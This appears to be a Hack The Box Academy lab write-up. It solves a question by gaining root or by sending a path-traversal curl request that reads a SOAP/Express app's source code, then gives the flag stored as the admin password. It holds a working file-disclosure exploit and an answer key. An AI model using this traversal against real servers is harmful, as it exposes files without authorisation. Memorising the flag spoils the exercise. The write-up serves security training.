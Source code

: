 Gain root with `automate.py`, then `cat /app/soap-wsdl/app.js`.

Alternate:

```
┌──(kali㉿kali)-[~]
└─$ curl "http://10.129.9.66:3000/api/download/..%2f..%2f..%2f..%2fapp%2fsoap-wsdl%2fapp.js"
/*jslint node: true */
"use strict";

var soap = require('soap');
var express = require('express');
var fs = require('fs');
const { exec } = require("child_process");
const e = require('express');

// SQL Injection Part
// Preparing the SQL Server in the memory (SQLI)
const sqlite = require('better-sqlite3');
const { stderr } = require('process');
const db = new sqlite(':memory:', {fileMustExist: true})

(...)

// Preparing the Database
db.exec("CREATE TABLE users (id INTEGER, name TEXT, email TEXT, username TEXT, password TEXT)");

var stmt = db.prepare("INSERT INTO users VALUES (?, ?, ?, ?, ?)");
users.forEach(user => {
  stmt.run([ user.id.toString(), user.first_name + user.last_name, user.email, user.username, user.password])
});
stmt.run([
  "0",
  "Administrator",
  "admin@htb.net",
  "admin",
  'FLAG{1337_SQL_INJECTION_IS_FUN_:)}'
])

```

**Answer:** `FLAG{1337_SQL_INJECTION_IS_FUN_:)}`

---
**Tags:** [[Hack The Box Academy]]